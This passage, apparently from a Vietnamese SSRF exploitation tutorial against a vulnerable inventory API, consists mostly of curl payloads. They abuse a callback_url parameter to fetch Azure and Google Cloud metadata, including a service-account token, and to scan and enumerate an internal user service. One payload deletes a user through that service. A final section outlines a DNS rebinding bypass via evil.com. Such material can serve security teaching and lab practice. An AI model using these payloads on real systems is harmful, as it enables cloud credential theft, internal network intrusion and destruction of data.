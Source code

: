 ```bash
```

**Azure VM:**
```bash
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://169.254.169.254/metadata/instance?api-version=2021-02-01" -H "Metadata: true"
```

**Google Cloud:**
```bash
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google"
```

#### **4.3. Accessing Internal APIs**

**Giả sử tìm được internal user-service:**

```bash
# 1. Scan để tìm service
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://10.0.1.5:8080/health"
# Response: {"status": "healthy"} → Found user-service!

# 2. Enumerate endpoints
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://10.0.1.5:8080/api/users"
# Response: [{"id": 1, "username": "admin"}, ...]

# 3. Exploit (nếu có lỗ hổng như project này)
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://10.0.1.5:8080/api/users/delete/1"
# Xóa user ID 1!
```

---

### **PHASE 5: ADVANCED TECHNIQUES (Kỹ thuật nâng cao)**

#### **5.1. DNS Rebinding Attack**

**Mục tiêu:** Bypass IP whitelist

```python
# Setup DNS server trả về IP khác nhau
# First query: Public IP (pass validation)
# Second query: Internal IP (actual SSRF)

# 1. Setup DNS record với TTL=0
# evil.com → 1.2.3.4 (public IP)
# After 1 second: evil.com → 127.0.0.1 (localhost)

# 2. Trigger SSRF
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://evil.com/admin"
# Backend validates: evil.com → 1.2.3.4 (OK, public IP)
# Backend connects: evil.com → 127.0.0.1 (bypassed!)
```
